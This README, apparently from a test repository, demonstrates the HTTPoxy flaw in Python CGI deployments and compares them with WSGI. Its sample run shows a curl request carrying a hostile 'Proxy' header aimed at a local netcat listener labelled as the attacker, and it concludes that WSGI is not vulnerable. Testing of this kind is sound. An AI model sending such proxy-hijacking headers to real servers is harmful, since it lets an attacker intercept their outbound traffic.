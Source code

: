 # Python HTTPoxy Vulnerability under CGI

Python is not usually deployed under CGI. But there are guides that provide for CGI as a deployment
mechanism of last resort.

When using something like wsgiref.handlers.CGIHandler, the os.environ map is polluted by CGI values,
including HTTP_PROXY.

Run `./build` to get started

There are two test cases:

* cgi (vulnerable), and
* wsgi (not vulnerable)

## Example run

### cgi

```
```

### wsgi

```
---------------------------------------------------------------------------------
Testing: wsgi/nginx
Testing done.


Here's the curl output from the curl client
* Hostname was NOT found in DNS cache
*   Trying 127.0.0.1...
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to 127.0.0.1 (127.0.0.1) port 2083 (#0)
> GET / HTTP/1.1
> User-Agent: curl/7.35.0
> Host: 127.0.0.1:2083
> Accept: */*
> Proxy: 172.17.0.1:12345
>
< HTTP/1.1 200 OK
< Date: Sat, 02 Jul 2016 07:05:14 GMT
* Server Apache is not blacklisted
< Server: Apache
< Content-Length: 1485
< Connection: close
< Content-Type: text/plain
<
{ [data not shown]
100  1485  100  1485    0     0   3578      0 --:--:-- --:--:-- --:--:--  3586
* Closing connection 0

    Made internal subrequest to http://example.com/ and got:
      os.environ[HTTP_PROXY]: none
      os.getenv('HTTP_PROXY'): none
      wsgi Proxy header: 172.17.0.1:12345
      status code: 200
      text: <!doctype html>
<html>
<head>
    <title>Example Domain</title>

    <meta charset="utf-8" />
    <meta http-equiv="Content-type" content="text/html; charset=utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <style type="text/css">
    body {
        background-color: #f0f0f2;
        margin: 0;
        padding: 0;
        font-family: "Open Sans", "Helvetica Neue", Helvetica, Arial, sans-serif;

    }
    div {
        width: 600px;
        margin: 5em auto;
        padding: 50px;
        background-color: #fff;
        border-radius: 1em;
    }
    a:link, a:visited {
        color: #38488f;
        text-decoration: none;
    }
    @media (max-width: 700px) {
        body {
            background-color: #fff;
        }
        div {
            width: auto;
            margin: 0 auto;
            border-radius: 0;
            padding: 1em;
        }
    }
    </style>
</head>

<body>
<div>
    <h1>Example Domain</h1>
    <p>This domain is established to be used for illustrative examples in documents. You may use this
    domain in examples without prior coordination or asking for permission.</p>
    <p><a href="http://www.iana.org/domains/example">More information...</a></p>
</div>
</body>
</html>



Tests finished. Result time...
Here is the nginx logs (containing output from the wsgi program)
./build: line 56: 26424 Terminated              nc -v -l 12345 > ./wsgi-mallory.log 2>&1
[Sat Jul 02 07:05:09.264581 2016] [mpm_event:notice] [pid 15:tid 139675532297984] AH00489: Apache/2.4.20 (Unix) mod_wsgi/4.5.2 Python/3.5.1 configured -- resuming normal operations
[Sat Jul 02 07:05:09.264934 2016] [core:notice] [pid 15:tid 139675532297984] AH00094: Command line: 'httpd (mod_wsgi-express) -f /tmp/mod_wsgi-localhost:80:0/httpd.conf -E /dev/stderr -D MOD_WSGI_MPM_ENABLE_EVENT_MODULE -D MOD_WSGI_MPM_EXISTS_EVENT_MODULE -D MOD_WSGI_MPM_EXISTS_WORKER_MODULE -D MOD_WSGI_MPM_EXISTS_PREFORK_MODULE -D FOREGROUND'


And here is what the attacker got (any output other than a listening line here means trouble)
Listening on [0.0.0.0] (family 0, port 12345)
end of trouble
---------------------------------------------------------------------------------
```

## Results

### wsgi not vulnerable

Because the user-supplied values are kept in a separate wsgi 'environ' map, wsgi is not
vulnerable. `os.environ['HTTP_PROXY']` remains unchanged when a `Proxy: foo` header is sent.
